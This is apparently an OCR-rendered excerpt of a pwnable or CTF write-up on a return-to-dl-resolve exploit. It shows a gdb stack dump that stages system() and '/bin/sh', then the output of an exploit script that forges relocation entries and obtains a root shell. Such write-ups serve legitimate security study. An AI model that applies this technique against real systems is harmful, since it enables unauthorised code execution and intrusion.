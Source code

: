 ```
   0xf7fc8005:	push   ebp
[------------------------------------stack-------------------------------------]
0000| 0x804a31c --> 0xf7e1b940 (<system>:	sub    esp,0xc)
0004| 0x804a320 --> 0x3b (';')
0008| 0x804a324 --> 0xf7fd7918 --> 0x0 
0012| 0x804a328 --> 0x2084 
0016| 0x804a32c ("BBBBS\243\004\b\f\240\004\b\a\027\002")
0020| 0x804a330 --> 0x804a353 ("/bin/sh")
0024| 0x804a334 --> 0x804a00c --> 0xf7e1b940 (<system>:	sub    esp,0xc)
0028| 0x804a338 --> 0x21707 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xf7fc7ffb in ?? () from /lib/ld-linux.so.2
gdb-peda$ x/24wx $esp
0x804a31c:	0xf7e1b940 <- system  0x0000003b	0xf7fd7918	0x00002084
0x804a32c:	0x42424242	0x0804a353 <- &"/bin/sh"  0x0804a00c	0x00021707
0x804a33c:	0x00002120	0x00000000	0x00000000	0x00000012
0x804a34c:	0x74737973	0x2f006d65	0x2f6e6962	0x00006873
0x804a35c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a36c:	0x00000000	0x00000000	0x00000000	0x00000000
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/return-to-resolve# python exploit.py 
[*] '/root/pwnable/return-to-resolve/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Section Headers
[*] .dynsym  : 0x80481cc
[*] .dynstr  : 0x804822c
[*] .rel.plt : 0x80482b0
[*] .plt     : 0x80482f0
[*] .bss     : 0x804a020
[*] read@plt : 0x8048300
[*] read@got : 0x804a00c
[*] fake_reloc_offset : 0x2084
[*] fake_r_info       : 0x21707
[*] fake_st_name      : 0x2120
[+] Starting local process '/root/pwnable/return-to-resolve/rop': pid 4483
Hello ROP

[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/return-to-resolve
$  
```

